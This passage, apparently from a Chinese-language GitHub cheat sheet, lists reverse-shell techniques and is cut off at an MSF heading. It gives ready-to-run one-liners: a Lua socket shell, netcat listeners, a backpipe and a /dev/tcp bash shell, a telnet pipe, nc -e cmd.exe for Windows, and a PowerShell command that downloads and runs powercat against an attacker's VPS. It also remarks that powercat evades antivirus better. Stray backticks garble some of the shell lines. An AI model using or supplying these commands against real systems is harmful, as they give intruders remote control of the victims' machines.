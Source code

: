 ### lua版本

本地作为服务器开启监听端口

```
nc -lvvp 4444
```

靶标作为客户端反弹shell

lua -e "require('socket');require('os');t=socket.tcp();t:connect('IP','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');"

### nc不使用-e参数反弹

本地作为服务器开启监听端口

```
nc -lvvp 4444
```

靶标作为客户端反弹shell

```
mknod` `/tmp/backpipe` `p
/bin/sh` `0<``/tmp/backpipe` `| nc IP 4444 1>``/tmp/backpipe
/bin/bash` `-i > ``/dev/tcp/IP````/4444 ``0<&1 2>&1
```

\```mknod` `backpipe p && telnet IP 4444 0backpipe`

##  5.Windows下反弹shell

### **nc反弹shell**

```text
netcat 下载：https://eternallybored.org/misc/netcat/
服务端反弹：nc VPS_IP 1234 -e c:\windows\system32\cmd.exe
```

### **powershell反弹**

powercat是netcat的powershell版本，功能免杀性都要比netcat好用的多。

```text
PS C:\WWW>powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c VPS_IP -p 1234 -e cmd
```

下载到目标机器本地执行：

```text
PS C:\WWW> Import-Module ./powercat.ps1
PS C:\WWW> powercat -c VPS_IP -p 1234 -e cmd
```

### **MSF反弹shell**
